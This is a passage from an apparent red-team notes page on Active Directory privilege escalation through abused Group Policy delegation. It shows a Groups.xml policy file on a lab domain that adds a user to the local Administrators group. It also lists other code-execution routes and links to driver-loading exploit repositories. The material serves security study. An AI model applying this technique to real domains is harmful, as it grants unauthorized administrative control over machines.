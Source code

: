 The same privilege escalation could be achieved by abusing the GPO Users and Groups feature. Note in the below file, line 6 where the user `spotless` is added to the local `administrators` group - we could change the user to something else, add another one or even add the user to another group/multiple groups since we can amend the policy configuration file in the shown location due to the GPO delegation assigned to our user `spotless`:

{% code title="\offense.local\SysVol\offense.local\Policies\{DDC640FF-634A-4442-BC2E-C05EED132F0C}\Machine\Preferences\Groups" %}
```markup
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
    <Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2018-12-20 14:08:39" uid="{300BCC33-237E-4FBA-8E4D-D8C3BE2BB836}">
        <Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)">
            <Members>
                <Member name="spotless" action="ADD" sid="" />
            </Members>
        </Properties>
    </Group>
</Groups>
```
{% endcode %}

Additionally, we could think about leveraging logon/logoff scripts, using registry for autoruns, installing .msi, edit services and similar code execution avenues.

## References

{% embed url="https://docs.microsoft.com/en-us/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory" %}

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/secauthz/enabling-and-disabling-privileges-in-c--" %}

{% embed url="https://adsecurity.org/?p=3658" %}

{% embed url="http://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/" %}

{% embed url="https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/" %}

{% embed url="https://rastamouse.me/2019/01/gpo-abuse-part-1/" %}

{% embed url="https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/EXE/NtLoadDriver-C%2B%2B/ntloaddriver.cpp#L13" %}

{% embed url="https://github.com/tandasat/ExploitCapcom" %}

{% embed url="https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp" %}

{% embed url="https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys" %}

{% embed url="https://posts.specterops.io/a-red-teamers-guide-to-gpos-and-ous-f0d03976a31e" %}

{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FNtLoadDriver.html" %}
